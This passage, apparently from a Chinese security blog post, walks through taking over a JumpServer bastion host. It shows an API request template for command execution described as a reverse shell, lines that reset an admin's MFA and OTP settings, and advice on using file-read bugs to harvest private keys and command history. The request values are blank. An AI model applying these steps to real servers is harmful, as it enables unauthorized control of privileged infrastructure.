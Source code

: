 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV8qyMI74EoljlZJD0Gxic1Lw6ico3lGfXBhdNq1ZiaIVpnKtpadMXWxHu5Lqkeg19QWmHKibuCiciayIUg/640?wx_fmt=png&from=appmsg "")  
  
反弹shell，返回包中包含执行结果的url /api/v1/ops/celery/task//log/  
```
POST /api/v1/ops/command-executions/ HTTP/2
Host: 
User-Agent: python-requests/2.31.0
Accept: application/json
Date: 
Content-Length: 
Content-Type: application/x-www-form-urlencoded
Authorization: Signature 

hosts=&amp;run_as=&amp;command=

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV8qyMI74EoljlZJD0Gxic1Lk3boJASZ3EnVBUN91ibNhRz62lsIBcYBMLZSd5pfAc7YzfYG6TDXVRQ/640?wx_fmt=png&from=appmsg "")  
  
根据官方文档重置管理员密码，如果存在OTP同样可以通过manage.py进行重置。如果管理员开启了强制OTP，重置之后可以在登录后重新绑定。  
```
user.mfa_level='0'
user.otp_secret_key=''

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV8qyMI74EoljlZJD0Gxic1L1HsCpYK1IV2mZKDZUH6VOFYg1Y7BTskMUpcu9qfYjduFVqLgPoVeKw/640?wx_fmt=png&from=appmsg "")  
  
最后以admin  
登录jumpserver  
控制台，接管堡垒机。  
#   
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x3 思路总结**  
  
  
  
文件读取漏洞在攻防场景下的影响比较有限，但是可以利用文件读取获取历史命令、私钥文件、配置文件等进一步攻击其他服务，继而获取权限或者数据。  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x4 内部圈子详情介绍**  
  
  
我们是  
神农安全  
，点赞 + 在看  
 铁铁们点起来，最后祝大家都能心想事成、发大财、行大运。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mngWTkJEOYJDOsevNTXW8ERI6DU2dZSH3Wd1AqGpw29ibCuYsmdMhUraS4MsYwyjuoB8eIFIicvoVuazwCV79t8A/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  